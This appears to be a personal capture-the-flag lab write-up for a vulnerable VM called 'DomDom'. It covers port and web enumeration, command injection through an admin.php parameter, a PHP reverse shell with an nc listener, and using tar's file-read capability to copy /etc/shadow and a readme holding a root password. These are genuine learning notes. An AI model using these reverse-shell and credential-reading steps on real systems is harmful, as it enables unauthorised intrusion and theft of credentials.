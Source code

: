 

---

**S1REN's Template Reference**

\[OS]: Ubuntu
\[Web-Technology]:  http://192.168.100.7:80
\[Hostname]:  
\[IP]:  192.168.100.7
\[USERS]:   
\[CREDENTIALS]:  

---
\[To-Try LIST]:  

User form - inputs sanitised

Fuzzing

Check GTFO Bins

Can crack shadow with John The Ripper / Hashcat

---
\[NMAP RESULTS]:  
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: DomDom
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:8F:4A:D5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16


--- 

\[Web Services Enumeration]:   


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: DomDom
|_http-server-header: Apache/2.4.18 (Ubuntu)

|     Path: http://192.168.100.7:80/
|     Form id: user_form
|_    Form action: index.php
| http-enum: 
|_  /admin.php: Possible admin folder

Nothing at 

Dirb:
/server-status
/admin.php


SQLi - no results
Fuzzing no results
Brute forcing?
Code Eval/Injection - ACE?

Burpsuite
![[Pasted image 20250829104104.png]]

forward admin.php -> command executed
![[Pasted image 20250829104511.png]]

try execute id `name=admin&username=admin&password=admin&access=access&cmd=id`
![[Pasted image 20250829104706.png]]


code was executed. Now run reverse shell (w/ machine IP) nc and host it on webserver


```
cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 9999
nc -nlvp 1234 
```

![[Pasted image 20250829105936.png]]
![[Pasted image 20250829110029.png]]
![[Pasted image 20250829110044.png]]



---


\[OTHER / PRIVILEGE-ESCALATION]:   
S1ren get that tty
www-data
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
export TERM=xterm-256color  
alias ll='ls -lsaht --color=auto'  
stty raw -echo ; fg ; reset  
stty columns 200 rows 20

cd home

# Saw domdom user here 
cd domdom

# but no perms for reading /Desktop/Readme

which gcc #and cc, wget all positive

file /bin/bash
uname -a #Ubuntu 16.04 LTS


sudo -l #no luck needs passwd
groups #www-data, sudo
env # PATH has /tmp - if privileged binary runs without path then malicious could be planted her

#SUID/SGID
find / -perm -u=s -type f 2>/dev/null # pkexec, fusermount, mount/umount/fstab??
find / -perm -g=s -type f 2>/dev/null # crontab, mlocate, ssh-agent


# Granted Implicit
getcap -r / 2>/dev/null 
#/usr/bin/systemd-detect-virt - cap_dac_override and cap_sys_ptrace - bypass file rw perms and attach/manipulate processes

#/bin/tar = cap_dac_read_search+ep - cap_dac_read_search+ep - can read any file
/bin/tar -cf /tmp/shadow.tar /etc/shadow
cd /tmp
/bin/tar -xf shadow.tar
cat etc/shadow
# Now can crack /etc/shadow w/ hashcat/jtr

#Ok no luck but can do the same to the readme also
 
Hi Dom, This is the root password:

Mj7AGmPR-m&Vf>Ry{}LJRBS5nc+*V.#a


su root #with passwd

#POST EXPLOITATION - did not find nothing else notable (i.e., other readmes) but we own the thingo now

```


--- 
Take Away Concepts: 

Go back to my to try list while trying to do long tasks like hashcat etc.

Tools to Root (not including dead ends):
- Nmap - port discovery
- Gobuster - find admin.php 
- Burpsuite - enabled me to run rev shell 


HOTKEYS! 
Background: Black 
Foreground (important elements): Red 
Background-Color: Select Text > Shift + Alt + B + ENTER 
Foreground Color: Select Text > Shift + Alt + F + ENTER 
Move quickly with: Function key + left and right arrows 
Cntrl + left and right arrows 
Cntrl + Shift (select text) (edited)
